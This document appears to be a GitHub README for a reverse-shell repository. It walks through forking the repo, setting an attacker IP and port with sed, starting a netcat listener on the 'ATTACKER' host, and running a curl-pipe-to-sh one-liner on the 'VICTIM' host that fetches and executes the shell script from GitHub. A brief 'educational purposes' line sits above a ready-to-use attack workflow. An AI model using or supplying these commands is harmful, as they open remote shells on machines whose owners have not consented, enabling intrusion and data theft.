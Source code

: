 # Reverse Shell
Please use the current source code for educational purposes.

## Setting
1. Fork Current Repository

2. Git Clone
```sh
git clone https://github.com/<<YOUR_REPOSITORY>>/reverse_shell.git
```

3. Change REMOTE_IP and REMOTE_PORT in reverse_shell file
```sh
cd <<YOUR_REPOSITORY>>
sed -i -e 's/REMOTE_IP/192.168.0.1/g' reverse_shell
sed -i -e 's/REMOTE_PORT/12345/g' reverse_shell
```

4. Git Commit and Git Push
```sh
cd <<YOUR_REPOSITORY>>
git commit -m 'Change REMOTE_IP and REMOTE_PORT(192.168.0.1:12345)' .
git push -u origin master
```

## TEST
### ATTACKER(192.168.0.1)
```sh
nc -lk 12345
```

### VICTIM(192.168.0.130)
```sh
Usage: curl https://raw.githubusercontent.com/<<YOUR_REPOSITORY>>/reverse_shell/master/reverse_shell |sh

curl https://raw.githubusercontent.com/kisec/reverse_shell/master/reverse_shell |sh
```

## RESET
Delete your repository or Git rest
```sh
cd <<YOUR_REPOSITORY>>
git reflog
git reset HEAD@{<<INIT_COMMIT_NUMBER>>}
git push origin +master

```

## Thanks
 - Reverse Shell as a Service - https://github.com/lukechilds/reverse-shell
 - Reverse Shell as a Service - https://shell.now.sh/
